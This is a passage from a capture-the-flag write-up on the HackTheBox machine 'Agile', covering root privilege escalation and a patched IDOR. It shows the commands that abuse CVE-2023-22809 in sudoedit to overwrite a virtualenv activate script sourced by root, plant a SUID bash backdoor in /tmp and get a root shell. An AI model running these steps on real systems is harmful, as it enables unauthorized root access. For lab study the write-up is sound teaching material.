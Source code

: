 ### Shell as root

root is periodically logging in, and each time it will source `/app/venv/bin/activate`. If I can edit that, I can get execution as root. This file is writable by root and dev\_admin:

```

edwards@agile:/$ ls -l /app/venv/bin/activate
-rw-rw-r-- 1 root dev_admin 1976 Jan 25 18:24 /app/venv/bin/activate

```

I’ll abuse CVE-2023-22809 to write this file as dev\_admin:

```

edwards@agile:/$ EDITOR='vim -- /app/venv/bin/activate' sudoedit -u dev_admin /app/config_test.json 
[sudo] password for edwards: 

```

In the file, I’ll add code to create a SUID bash:

![image-20230125133012362](/img/image-20230125133012362.png)

After the next minute, the backdoor is now in `/tmp`, and gives a shell:

```

edwards@agile:/$ /tmp/0xdf -p
edwards@agile:/# id
uid=1002(edwards) gid=1002(edwards) euid=0(root) groups=1002(edwards)

```

## Beyond Root

### Unintendeds Patched

Agile [was patched](https://app.hackthebox.com/machines/agile/changelog) after it’s week in the season scoring to fix two vulnerabilities:

![image-20230801134538403](/img/image-20230801134538403.png)

I’ll look at each here.

### IDOR

There was an insecure direct object reference vulnerability in the `get_password_by_id` function. This allowed users to find the `/vault/row/<id>` endpoint and request passwords from other users, leaking corum’s password, skipping the Flask debug step.

The route used a function in `/app/app/superpass/services/password_service.py` called `get_password_by_id`.
